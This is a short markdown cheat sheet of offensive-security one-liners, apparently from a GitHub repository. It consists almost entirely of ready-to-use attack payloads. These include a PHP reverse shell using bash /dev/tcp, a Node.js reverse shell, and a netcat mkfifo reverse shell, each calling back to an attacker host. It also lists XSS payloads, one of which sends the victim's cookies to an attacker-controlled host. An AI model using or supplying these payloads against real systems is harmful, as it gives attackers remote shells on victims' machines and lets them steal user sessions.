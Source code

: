 # cron
## crontab
```
cat /etc/crontab
```
# forensics

## steganography
```
steghide extract -sf file.jpg
```
# reverese shell
## tiny php reverese shell
```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.10/1234 0>&1'"); ?>
```

## nodejs
```
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4242, "10.0.0.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

## netcat
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [LHOST] 4444 >/tmp/f
```
# xss
```
<script>alert(document.cookie)</script>
```

```
<script>document.location='http://[RHOST]/?cookie='+document.cookie</script>
```
